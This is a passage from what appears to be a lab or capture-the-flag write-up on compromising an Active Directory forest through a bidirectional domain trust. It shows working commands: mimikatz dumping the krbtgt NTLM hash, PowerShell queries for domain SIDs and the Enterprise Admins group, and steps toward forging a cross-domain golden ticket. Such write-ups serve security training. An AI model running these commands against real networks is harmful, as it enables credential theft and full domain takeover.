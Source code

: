 Beautiful! After waiting for a few seconds, the session spawns as user "cpowers"

![Groups](/images/trusted/groups28.png)

The user "cpowers" is also a member of the domain admins group, meaning we own the lab environment.

<br>

## Lateral Movement

---

Enumerating the Domain trust, we find that trusted.vl has a Bidirectional trust setup with lab.trusted.vl.

```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

![Trust](/images/trusted/trust29.png)

Upon reading further about Domain Trusts, it quickly came apparent that as a Domain Administrator we can forge a golden ticket and takeover the trusted.vl domain. For this matter we will be using mimikatz

After we transfer mimikatz to the machine, we need the following things in order to forge a golden ticket:

```
The NTLM of the krbtgt domain object.
The LAB domain object SID.
The TRUSTED domain object SID for the Enterprise Admins group.
```

Running mimikatz non interactively, we can dump the NTLM hash of the krbtgt account:

`.\mimi.exe "privilege::debug" "lsadump::lsa /user:krbtgt /patch" "exit"`

![Mimikatz](/images/trusted/mimi30.png)

Using PowerShell, we can query the Domain SID. By specifying a specific domain, we can also retrieve the SID of trusted.vl instead of the lab domain.

`(Get-ADDomain).DomainSID`

![SID](/images/trusted/sid31.png)

Using PowerShell, we can filter for the Enterprise Admins group within the trusted.vl domain. Enterprise Admins are particularly sensitive as they hold Domain Administrator privileges across multiple domains.

`Get-ADGroup -Filter {name -eq "Enterprise Admins"} -Server trusted.vl`

![Enterprise Admins](/images/trusted/groups.png)

S-1-5-21-3576695518-347000760-3731839591-519
